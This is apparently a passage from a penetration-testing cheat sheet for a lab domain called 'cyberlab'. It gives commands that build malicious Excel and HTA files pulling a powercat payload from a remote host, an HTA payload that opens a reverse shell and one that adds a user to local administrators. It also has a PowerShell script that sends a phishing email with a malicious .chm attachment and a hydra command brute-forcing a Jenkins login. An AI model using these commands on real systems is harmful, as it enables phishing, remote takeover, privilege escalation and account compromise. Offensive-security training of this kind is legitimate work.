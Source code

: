     Out-Excel -PayloadURL http://192.168.50.53/powercat_connect.ps1 -DDE
    
    Out-HTA -PayloadURL http://192.168.50.53/powercat_connect.ps1
    Out-HTA -Payload "powershell.exe -ExecutionPolicy Bypass -noprofile -noexit -c . \\10.10.10.10\tmp\powercat.ps1; powercat -c ws01 -p 443 -e cmd"
    Out-HTA -Payload "powershell.exe -ExecutionPolicy Bypass -noprofile -noexit -c net localgroup administrators cyberlab\student01 /add"
    ```
    
3. Connect to the SMTP server and the send the message to the recipients:
    
    ```powershell
    # phishing.ps1
    $recipients = @("lbunce@cyberlab.local","bschonfelder@cyberlab.local")
    $sender = "giovanni@pecoraro.local"
    $subject = "Important mail"
    $body = "Please open the attachment"
    $smtp_server = "smtp.cyberlab.local"
    $smtp_port = 25$attachment_path = ".\doc.chm"
    
    Foreach ($rcpt in $recipients) {    
    	Write-Host -ForegroundColor Yellow "Sending phishing email to $rcpt"    
    	Send-MailMessage -To $rcpt -From $sender -Subject $subject -Body $body -SmtpServer $smtp_server -Port $smtp_port -Attachments $attachment_path
    }
    ```
    

## Brute-forcing

```powershell
# hydra.exe
.\hydra.exe -L ..\usernames.txt -P ..\500-worst-passwords.txt "http-post-form://192.168.2.50:8080/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2FasynchPeople%2F&Submit=Sign+in:Invalid"
```
---